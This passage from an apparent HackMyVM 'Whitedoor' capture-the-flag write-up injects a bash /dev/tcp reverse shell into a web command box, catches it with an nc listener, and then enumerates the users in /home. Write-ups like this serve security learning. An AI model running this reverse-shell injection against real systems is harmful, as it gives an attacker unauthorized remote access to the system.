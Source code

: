 - Setup a Listener
```shell
┌──(synix㉿zer0day)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

- Let's Inject reverse shell to a command box
```shell
ls; bash -c 'exec bash -i &>/dev/tcp/192.168.144.229/4444 <&1'
```
<img src="https://github.com/0xsynix/Writeups/blob/main/assets/HackMyVM/Whitedoor/3.png">
<br>

- And we got the shell!!
- Okay now explore a bit

```shell
┌──(synix㉿zer0day)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.144.229] from (UNKNOWN) [192.168.144.158] 58518
bash: cannot set terminal process group (504): Inappropriate ioctl for device
bash: no job control in this shell
www-data@whitedoor:/var/www/html$ cd /home
cd /home
www-data@whitedoor:/home$ ls
ls
Gonzalo
whiteshell
www-data@whitedoor:/home$ cd whiteshell
cd whiteshell
www-data@whitedoor:/home/whiteshell$ ls -la
ls -la
total 48
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17  2023 .
drwxr-xr-x 4 root       root       4096 Nov 16  2023 ..
lrwxrwxrwx 1 root       root          9 Nov 16  2023 .bash_history -> /dev/null
-rw-r--r-- 1 whiteshell whiteshell  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 whiteshell whiteshell 3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 whiteshell whiteshell 4096 Nov 16  2023 .local
-rw-r--r-- 1 whiteshell whiteshell  807 Apr 23  2023 .profile
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16  2023 Desktop
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16  2023 Documents
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16  2023 Downloads
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16  2023 Music
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16  2023 Pictures
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16  2023 Public
www-data@whitedoor:/home/whiteshell$ 
```

- And found out there is two user `whiteshell` and `Gonzalo`
- Let's explore more!!
